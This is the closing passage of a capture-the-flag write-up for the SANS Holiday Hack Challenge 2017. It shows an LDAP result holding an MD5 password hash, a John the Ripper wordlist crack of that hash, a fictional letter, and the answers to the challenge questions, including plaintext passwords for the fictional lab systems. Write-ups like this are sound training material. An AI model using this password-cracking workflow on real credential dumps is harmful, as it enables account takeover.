    [[["cn=santa,ou=human,dc=northpolechristmastown,dc=com",{"userPassword":["d8b4c05a35b0513f302a85c409b4aab3"]}]]]

We now have Santa's hashed password. Given the form, it seems to be an MD5
hash. Let's use :code:`JohnTheRippher` again to try and crack it:

.. code-block:: console
    :hl_lines: 8

    $ cat santa_password.txt 
    d8b4c05a35b0513f302a85c409b4aab3
    $ john --format=raw-md5 --wordlist=./rockyou.txt ./santa_password.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
    Warning: no OpenMP support for this hash type, consider --fork=4
    Press 'q' or Ctrl-C to abort, almost any other key for status
    001cookielips001 (?)
    1g 0:00:00:00 DONE (2018-01-08 01:23) 1.315g/s 18776Kp/s 18776Kc/s 18776KC/s 002007238..00196900
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

Hurray, we have Santa's password! We can now log into the application, and
access his panel. This gives us access to this letter, sent to him:

.. image:: /images/sans-christmas-challenge-2017/wizard_of_oz_to_santa_d0t011d408nx.png
    :alt: wizard_of_oz_to_santa_d0t011d408nx.png
    :align: center

Here's what the letter says:

    From: The Wizard of Oz
    
    Emerald City, Oz
    
    To: Santa Claus
    
    Christmas Town, North Pole
    
    Dear Santa,
    
    My old friend! I wish you a very merry Christmas. Thank you for all you do
    to bring holiday cheer around the world.

    Every year, I enjoy our gift exchange -- you giving me a Christmas present
    and I giving you a Solstice gift. We've exchanged some crazy things in the
    past. By my reckoning, you've given me:

    * Big Hair Hairspray
    * Pink Election Campaign Hat
    * Bacon Bandages
    * Scapy the Unicorn Plush Pillow
    * Princess Leia Earmuffs
    * Bacon Tie with Giant TV Remote
    * Stormtrooper Boxer Shorts

    Ah what fun times! And I've given you:

    * The Nubulator
    * Garden Gnome
    * Justin Bieber Toothbrush
    * Snorty the Pig Hat and Pink Gloves
    * Giant Inflatable Olaf the Snowman
    * Ariana Grande Light-up Cat Ear Headphones

    Well, wait 'til you see what I've got for you this year, my friend! Yule
    love it!

    Merry Christmas!

    -- The Wizard

Well, it's nice to see that Santa gets gifts too!

Answers to the questions
~~~~~~~~~~~~~~~~~~~~~~~~

Let's answer the questions:

1. `Visit the North Pole and Beyond at the Winter Wonder Landing Level to collect the first page of The Great Book using a giant snowball. What is the title of that page?`

The title of the first page of *The Great Book* is **About This Book...**.

2. `Investigate the Letters to Santa application at https://l2s.northpolechristmastown.com. What is the topic of The Great Book page available in the web root of the server? What is Alabaster Snowball's password?`

The topic of the second page of *The Great Book* is the creation of flying
animals in Oz, which lead to the creation of flying reindeers.

Alabaster Snowball's password is :code:`stream_unhappy_buy_loss`.

3. `The North Pole engineering team uses a Windows SMB server for sharing documentation and correspondence. Using your access to the Letters to Santa server, identify and enumerate the SMB file-sharing server. What is the file server share name?`

The name of the share on :code:`hhc17-smb-server` is :code:`FileStor`.

4. `Elf Web Access (EWA. is the preferred mailer for North Pole elves, available internally at http://mail.northpolechristmastown.com. What can you learn from The Great Book page found in an e-mail on that server?`

The fourth page of *The Great Book* speaks of the battles between Munchkins and
Elves, the creation of the Lollipop Guild, and their infiltration in the North
Pole population.

5. `How many infractions are required to be marked as naughty on Santa's Naughty and Nice List? What are the names of at least six insider threat moles?  Who is throwing the snowballs from the top of the North Pole Mountain and what is your proof?`

It takes four infractions to be marked as naughty on Santa's list.

Here are six insider threat moles:

* Boq Questrian
* Bini Aru
* Sheri Lewis
* Kirsty Evans
* Nina Fitzgerald
* Beverly Khalil

The discussion between us, Sam the Snowman, and Bumble informs us that the
person throwing giant snowballs is Bumble, the Abominable Snow Monster.

6. `The North Pole engineering team has introduced an Elf as a Service (EaaS.  platform to optimize resource allocation for mission-critical Christmas engineering projects at http://eaas.northpolechristmastown.com. Visit the system and retrieve instructions for accessing The Great Book page from C:\\greatbook.txt. Then retrieve The Great Book PDF file by following those directions. What is the title of The Great Book page?`

The title of the first page of *The Great Book* is **The Dreaded
Inter-Dimensional Tornadoes**.

7. `Like any other complex SCADA systems, the North Pole uses Elf-Machine Interfaces (EMI. to monitor and control critical infrastructure assets. These systems serve many uses, including email access and web browsing. Gain access to the EMI server through the use of a phishing attack with your access to the EWA server. Retrieve The Great Book page from C:\\GreatBookPage7.pdf. What does The Great Book page describe?`

The seventh page of *The Great Book* gives us details regarding the Witches of
Oz, their power, and their neutrality during the Great Schism.

8. `Fetch the letter to Santa from the North Pole Elf Database at http://edb.northpolechristmastown.com. Who wrote the letter?`

The letter was written by the Wizard of Oz, Santa's good friend.

9. `Which character is ultimately the villain causing the giant snowball problem. What is the villain's motive?`

The villain causing the giant snowball problem is Glinda, the "Good" Witch.
She cast a spell on Bumble to make him throw giant snowballs, in order to
create an all-out war between Elves and Munchkins. This would have allowed her
to make a profit, by selling spells to both sides of the war.

Conclusion
~~~~~~~~~~

Once again, the SANS staff outdid themselves and gave us an amazing Christmas
challenge. I thought implementing client-side attacks, such as XSS or phishing
attacks was a nice touch. It's also great that designed the challenge to that
people would have to pivot to an internal network. Overall, it kind of reminded
me of when I took my OSCP exam/lab.

As usual, see you next year!

[EDIT 2018-03-15]

This write-up received an `honorable mention from the SANS team <https://holidayhackchallenge.com/2017/winners_answers.html>`__.
Even though I didn't win any prize, I'm still super honored to receive this
recognition. Thanks to the SANS team for organizing this challenge, and
special thanks to Jerry Salinas for reviewing my write-up!

